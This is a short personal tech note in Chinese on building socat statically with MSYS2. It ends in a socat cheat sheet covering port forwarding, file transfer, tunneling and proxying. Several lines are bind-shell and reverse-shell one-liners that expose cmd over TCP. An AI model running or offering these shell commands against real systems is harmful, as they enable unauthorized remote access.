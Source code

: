 ```yaml
---
author: XhstormR
tags:
- Notes
date: 2020-01-28T21:49:39+08:00
title: 构建 socat
---
```


<!--more-->

Updated on 2020-01-28

> {{< image "uploads/doorway.svg" "doorway" "1" "1" >}}
>
> [MSYS2](https://mirrors.tuna.tsinghua.edu.cn/msys2/distrib/msys2-x86_64-latest.tar.xz)
>
> [socat](http://www.dest-unreach.org/socat/download/socat-1.7.3.4.tar.gz)

## Step
```bash
D:\Work\Download\socat>

pacman -Syu
pacman -S --noconfirm --needed gcc make libreadline-devel

./configure CFLAGS='-s -static -Os' && make
```

```bash
单向模式:
-u in -> out
-U out <- in

Bind Shell
----
LHOST:
ncat 127.0.0.1 1234
or
socat tcp-connect:127.0.0.1:1234 readline
RHOST:
socat tcp-listen:1234,fork,reuseaddr exec:"cmd",pty,stderr

Reverse Shell
----
LHOST:
socat tcp-listen:1234,fork,reuseaddr readline
RHOST:
socat tcp-connect:127.0.0.1:1234 exec:"cmd",pty,stderr

单进程应用 -> 多进程服务
----
LHOST:
socat -u tcp-connect:127.0.0.1:1234 -
RHOST:
socat -U tcp-listen:1234,fork,reuseaddr exec:"busybox ps",pty,stderr

监听端口
----
LHOST:
socat tcp-listen:1234,fork,reuseaddr -
RHOST:
ncat 127.0.0.1 1234
or
curl 127.0.0.1:1234

端口转发
----
socat tcp-listen:1234,fork,reuseaddr tcp-connect:192.168.1.19:3389

写入文件
----
echo 123 | socat -u - ./123.txt
or
echo 123 | socat -u - open:123.txt,wronly,create,append

读取文件
----
socat -U - ./123.txt
or
socat -U - open:123.txt,rdonly

文件传输
----
LHOST:
socat -u tcp-connect:127.0.0.1:1234 open:123.txt,wronly,create,trunc
RHOST:
socat -U tcp-listen:1234,fork,reuseaddr open:123.txt,rdonly

内网穿透（不推荐）
----
公网：
socat tcp-listen:1234,fork,reuseaddr tcp-listen:8080
内网：
socat tcp-connect:47.98.135.65:1234 tcp-connect:192.168.1.19:80
客户端：
curl 47.98.135.65:8080

SSH 设置 HTTP PROXY
----
ssh -o ProxyCommand='socat - PROXY:127.0.0.1:%h:%p,proxyport=8080' root@192.168.2.2
```

## Reference
* http://www.dest-unreach.org/socat/doc/socat.html
